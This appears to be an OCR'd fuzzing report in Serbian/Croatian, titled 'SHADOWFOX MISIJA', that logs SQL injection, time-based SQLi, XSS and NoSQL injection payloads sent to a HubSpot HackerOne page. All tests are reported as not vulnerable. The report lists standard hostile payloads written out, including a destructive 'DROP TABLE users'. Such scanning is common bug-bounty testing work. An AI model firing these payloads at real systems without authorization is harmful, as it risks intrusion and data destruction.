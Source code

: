 # SHADOWFOX MISIJA
**Meta:** https://hackerone.com/hubspot?type=team?test=' OR '1'='1
**Datum:** 2025-05-15 21:38

---

## Detalji napada

### SQL Injection Fuzzer
- **https://hackerone.com/hubspot?type=team?test=' OR '1'='1** → `{'status': 200, 'vulnerable': False}`
- **https://hackerone.com/hubspot?type=team?test=' OR 1=1--** → `{'status': 200, 'vulnerable': False}`
- **https://hackerone.com/hubspot?type=team?test='; DROP TABLE users; --** → `{'status': 200, 'vulnerable': False}`
- **https://hackerone.com/hubspot?type=team?test=' OR '1'='1' /*** → `{'status': 200, 'vulnerable': False}`
- **https://hackerone.com/hubspot?type=team?test=' UNION SELECT NULL, NULL, NULL--** → `{'status': 200, 'vulnerable': False}`

### XSS Fuzzer
- **https://hackerone.com/hubspot?type=team?xss=<script>alert('XSS')</script>** → `{'status': 200, 'reflected': False}`
- **https://hackerone.com/hubspot?type=team?xss='"><script>alert('XSS')</script>** → `{'status': 200, 'reflected': False}`
- **https://hackerone.com/hubspot?type=team?xss=<img src=x onerror=alert('XSS')>** → `{'status': 200, 'reflected': False}`
- **https://hackerone.com/hubspot?type=team?xss=<svg/onload=alert('XSS')>** → `{'status': 200, 'reflected': False}`
- **https://hackerone.com/hubspot?type=team?xss=<body onload=alert('XSS')>** → `{'status': 200, 'reflected': False}`

### Time-Based SQL Injection Fuzzer
- **https://hackerone.com/hubspot?type=team ('; WAITFOR DELAY '00:00:05'--)** → `0.6258 sec`
- **https://hackerone.com/hubspot?type=team (1' OR IF(1=1, sleep(5), null) --)** → `0.6403 sec`

### NoSQL Injection Fuzzer
- **https://hackerone.com/hubspot?type=team ({"$ne": ""})** → `SAFE`
- **https://hackerone.com/hubspot?type=team ({"$gt": ""})** → `SAFE`
- **https://hackerone.com/hubspot?type=team ({"$regex": ".*"})** → `SAFE`

---

**Ukupno pronađenih ranjivosti:** `0`

**Preporuka:** Pokrenuti dodatnu analizu i pripremiti AI patch modul.
